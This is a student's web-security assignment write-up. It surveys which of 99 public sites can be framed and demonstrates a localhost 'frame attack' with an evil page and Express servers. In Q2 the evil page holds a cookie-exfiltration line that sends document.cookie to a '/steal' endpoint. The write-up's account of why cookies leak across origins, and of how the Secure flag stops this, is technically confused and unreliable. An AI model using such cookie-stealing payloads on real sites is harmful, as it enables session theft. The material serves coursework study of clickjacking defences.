# Assignment 4: Frames
#### Himarsha Jayanetti, CS 495/595 Web Security, Spring 2021

## Q1: Which public sites are framable?

### List of directories

  * [Data Table](data.csv)
  * Code
    * [Collect CURL responses and create HTML](code/create_html.py)
    * [Check if a website is framable or not](code/check_framable.py)
  * Other Files
    * [CURL Responses](curl_output)
    * [HTML Files Created](framable)
    * [X-Frame-Options and Content-Security-Policy header summary](header_summary.tsv)

### Youtube Video: https://youtu.be/JRT9_6aON0k

### Summary

* Total number of sites: 99

* How many are framable: 11

* How many are not framable: 88

* What are the framable sites:

```
/HW4$ cat data.csv | grep "True" | cut -d"," -f1
adweek.com
blog.fc2.com
britannica.com
ca.gov
foxnews.com
gooyaabitemplates.com
nps.gov
people.com
reuters.com
washingtonpost.com
wired.com

```



* What are the non framable sites:

```
/HW4$ cat data.csv | grep "False" | cut -d"," -f1
academia.edu
accounts.google.com
adobe.com
amazon.ca
amazon.co.jp
amazon.de
answers.com
bbc.com
booking.com
books.google.com
bp.blogspot.com
bp3.blogger.com
brandbucket.com
calameo.com
cambridge.org
cloudflare.com
de.wikipedia.org
deezer.com
dropbox.com
ebay.com
ed.gov
en.wikipedia.org
europa.eu
fandom.com
fb.me
finance.yahoo.com
forbes.com
get.google.com
ggpht.com
godaddy.com
gofundme.com
goo.gl
google.co.in
google.de
google.es
google.nl
googleblog.com
greenpeace.org
groups.yahoo.com
harvard.edu
hm.com
huffpost.com
ig.com.br
instagram.com
iso.org
lifehacker.com
linkedin.com
lycos.com
mail.google.com
mail.ru
microsoft.com
msn.com
my.yahoo.com
myspace.com
namesilo.com
networkadvertising.org
news.google.com
newscientist.com
nokia.com
offset.com
orange.fr
php.net
picasa.google.com
plos.org
policies.google.com
rediff.com
researchgate.net
rt.com
shutterstock.com
stanford.edu
steamcommunity.com
surveymonkey.com
terra.com.br
thenextweb.com
theverge.com
thoughtco.com
tinyurl.com
transandfiestas.ga
twitch.tv
usgs.gov
vk.com
walmart.com
whitehouse.gov
wiktionary.org
wordpress.org
youtu.be
youtube.com
zdnet.com
```



However, I was able to identify sites where the toplevel domain is framable but not the deep links. For example, let's look at booking.com.

   * Loading the HTML page created with booking.com embeded as an iframe will allow you to see that it is framable.



   * If you click somewhere on the page (Ex: "Register" button), it will display "account.booking.com refused to connect" with the security error "Blocked a frame with origin http://localhost:4000 from accessing a cross-origin frame".



In order to report these, I have added a column name "toplevel: isframable" to the final [data](data.csv) file.

* By considering the above mentioned type of frame behaviour, a more detailed summary of the 99 sites are as below.

   * Total number of sites: 99
   * Site is framable: 11
   * Only the top level site is framable: 13
   * Not framable: 71
   * Did not resolve: 3
   * Connection reset: 1
  
*  Non framable sites: How did they defeat the attempt to frame them?
   * All of the framable sites gave no error when loading the Iframe. 
   * Of the non framable sites:
   		* There are sites which allow the top level site to be framed but not the deep links. 
  		* Every other site gives the SecurityError: Blocked a frame with origin http://localhost:4000 from accessing a cross-origin frame.
   * 59 sites defeated the attempt to be framed by setting the "X-Frame-Options" header to SAMEORIGIN, DENY or Both.
   * There were 40 sites which had no "X-Frame-Options" header.
   * "X-Frame-Options" header distribution.
	```
	50 'SAMEORIGIN'or 'sameorigin'
	40 No "X-Frame-Options" header
	6  DENY
	3 'SAMEORIGIN' and 'DENY'
	```
   * Some sites had CSP set to self, none, or sub domains set. I also noted that booking.com had CSP report only.

	```
	Ex:
	"content-security-policy: frame-ancestors 'self'

	content-security-policy-report-only: report-uri https://reports.booking.com/csp_violation?type=report&tag=112&pid=ca799d493c370138&e=UmFuZG9tSVYkc2RlIyh9YVVBzJ38_nCx12ImVfi9-ylq6MbamNqpIg&f=0&s=0; frame-ancestors 'none';

	content-security-policy: frame-ancestors gofundme.com *.gofundme.com;
	```

### Steps 

* Step 01: I have created the HTML files with the help of [create_html.py](code/create_html.py). 

  Here I am replacing the place holder for the URL in [my template](main_template.html) with the sites provided for me to create each HTML file.
  
  These files are stored in the [framable](framable) directory.  
  
* Step 02: Using the same [create_html.py](code/create_html.py), I have also collected the [CURL responses](curl_output) for each of the 99 sites.

* Step 03: Hosting the files through my node server on "http://localhost:4000/".

* Step 04: Checking if a website is framable by running the [code](code/check_framable.py) which uses selenium to open each HTML hosted locally.

** Javascript in each HTML file will call frameLoaded() function onload. 

```
<iframe onload="frameLoaded()" onerror="onError()" id = "myframe" src="http://www.bbc.com" style="border:2px solid blue;" title="Iframe Example"></iframe>

```
** A constant isLoaded is defined which will get the window length from the contentWindow property (contentWindow returns the Window object of an HTMLIFrameElement). If the frame is loaded, isLoaded will be greater than 0 and if it's not loaded, it will be equal to zero.   

```javascript
function frameLoaded() 
{

var that = document.getElementById('myframe');
const isLoaded = that.contentWindow.window.length;  
if (isLoaded == 0)
{
	try{
		(that.contentWindow||that.contentDocument).location.href;
		alert("Iframe not loaded but no error")

	}
	catch(err){
	alert("Iframe not loaded: " + err);
	}

}
else if (isLoaded >= 1)
{
	alert("Iframe loaded");
}
}
```

** Finally, I am using selenium to open each HTML hosted locally to collect the alert text along with any error the browser might through while trying to load the Iframe.

```python
response = driver.get(localhost_url)
driver.implicitly_wait(30)
alerttext = driver.switch_to.alert
outcome = alerttext.text	
if outcome == "Iframe loaded":
	  isframable = True
if "Iframe not loaded" in outcome:
	  isframable = False
	  try:
		    reason = outcome.strip("Iframe not loaded: ")
	  except:					
		    pass
```

### Screenshots

* Creating the HTML files and collecting the CURL responses.


* Running the node server.


* Checking if the sites are framable.



## Q2: Frame attack

### List of directories

  * Code
    * [Server 1: Evil server](frame-attack/evil_server.js)
    * [Server 2: Victim server](frame-attack/victim.js)
    * [Server 3: Secure server](frame-attack/secure.js)    
    * [HTML 1: HTML having the victim site framed](frame-attack/files/html/stolencookie.html)
    * [HTML 2: HTML having the secure site framed](frame-attack/files/html/securecookie.html)
    
### Youtube Video: https://youtu.be/uXC6dfXpam0

### Setup: Succesful Attack

* HTML

Evil HTML running on http://localhost:5001/ has an iframe which contains a HTML file running on http://localhost:5002/. 

```diff
$ cat files/html/stolencookie.html 
<html>
<title>
Himarsha's Evil Site
</title>

<h1>Welcome to my evil page! - Successful attack</h1>
Himarsha Jayanetti, CS595 - Spring 2021, ODU
<br><br>
This page is created to demonstrate how to steal cookies from a embedded (inside an iframe) site on another HTML at a cross origin domain.
<br><br>
The iframe cookie can be displayed outside of iframe. Wait for 5 seconds and you will see the main page cookie and iframe cookie appear.
<p>
<p>

<script>
    document.cookie = 'main=cookie'
    const iframe = document.createElement('iframe')
    iframe.src = 'http://localhost:5002/'
    document.body.appendChild(iframe)
    document.write(iframe.contentDocument.cookie)
    console.log(iframe.contentDocument.cookie)

    // wait 5 seconds
    setTimeout(function() {
    const p = document.createElement('p')
-   p.innerHTML = document.cookie   /*iframe.contentDocument.cookie */
    document.body.appendChild(p)

-   new Image().src = 'http://localhost:5002/steal?cookie=' + document.cookie  /*iframe.contentDocument.cookie*/
}, 5000);
</script>

```

* Server which hosts the evil site.
```diff
$ cat evil_server.js 
const express = require('express')
const { createReadStream } = require('fs')
const app = express()
const port = 5001

app.get('/', (req, res) => {
-  createReadStream('files/html/stolencookie.html').pipe(res)
})

app.listen(port, () => {
  console.log(`Server 1: Attacker is listening at http://localhost:${port}`)
})

app.use(express.static('files'))
```

* Server which hosts the victim site.
```diff
$ cat victim.js 
const express = require('express')
const { createReadStream } = require('fs')
const app = express()
const port = 5002

app.get('/', (req, res) => {
-  res.append('Set-Cookie', 'login=secretcookie; Path=/')
-  res.send("<html><title>Himarsha's Victim Page</title><h1>Welcome to my vulnerable victim page!<br></h1>Himarsha Jayanetti, CS595 - Spring 2021, ODU<br><br>This page will be framed at a cross origin domain.<script>document.write(document.cookie)</script></html>")
})

app.listen(port, () => {
  console.log(`Server 2: Vulnerable victim is listening at http://localhost:${port}`)
})
```

### Setup: Unsuccesful Attack

* HTML

Evil HTML running on http://localhost:5001/ has an iframe which contains a HTML file running on http://localhost:5003/. 

```diff
$ cat securecookie.html 
<html>
<title>
Himarsha's Evil Site 
</title>


<h1>Welcome to my evil page! - Unsuccessful attack</h1>
Himarsha Jayanetti, CS595 - Spring 2021, ODU
<br><br>
This page is created to demonstrate how to prevent the stealing of cookies from a embedded (inside an iframe) site on another HTML at a cross origin domain.
<br><br>
The iframe cookie will not be displayed outside of iframe. Wait for 5 seconds and you will see only the main page cookie appear.
<p>
<p>

<script>
    document.cookie = 'main=cookie'
    const iframe = document.createElement('iframe')
-   iframe.src = 'http://localhost:5003/'
    document.body.appendChild(iframe)
    document.write(iframe.contentDocument.cookie)
    console.log(iframe.contentDocument.cookie)

    // wait 5 seconds
    setTimeout(function() {
    const p = document.createElement('p')
-   p.innerHTML = document.cookie   /*iframe.contentDocument.cookie */
    document.body.appendChild(p)

    new Image().src = 'http://localhost:5002/steal?cookie=' + document.cookie  /*iframe.contentDocument.cookie*/
}, 5000);
</script>
```

* Server which hosts the evil site.

Same server as used in succesfull attack.

* Server which hosts the secure victim site.

This time, we also set "Secure" in the Set-Cookie header.


```diff
$ cat secure.js 
const express = require('express')
const { createReadStream } = require('fs')
const app = express()
const port = 5003

app.get('/', (req, res) => {
-  res.append('Set-Cookie', 'login=secretcookie; Path=/, Secure')
  /*  res.append('X-Frame-Options', 'SAMEORIGIN')*/
-  res.send("<html><title>Himarsha's Victim Page</title><h1>Welcome to my secure victim page!<br></h1>Himarsha Jayanetti, CS595 - Spring 2021, ODU<br><br>This page will be framed at a cross origin domain.<script>document.write(document.cookie)</script></html>")
})

app.listen(port, () => {
  console.log(`Server 3: Secure victim is listening at http://localhost:${port}`)
})
```

* In both the cases, document.cookie is used instead of iframe.contentDocument.cookie because iframe.contenDocument gives a null value. If we try to access iframe.contentDocument.cookie it will prompt an error in the console saying "Uncaught TypeError: Cannot read property 'cookie' of null" (refer to the screenshots).

### Screenshots

* Servers running


#### Succesful attempt of cookie stealing

   * Initial page load


   * Cookies will display below the iframe on the main page after the timeout of 5s.


   * Attempting to access iframecookie using iframe.contentDocument.cookie in the console - Fails. But document.cookie will display both the cookies.


#### Unsuccesful attempt of cookie stealing
 
   * Initial page load


   * The main page cookie will display below the iframe on the main page after the timeout of 5s.


   * Attempting to access iframecookie using iframe.contentDocument.cookie in the console - Fails. And this time, document.cookie will only display the main page cookies.

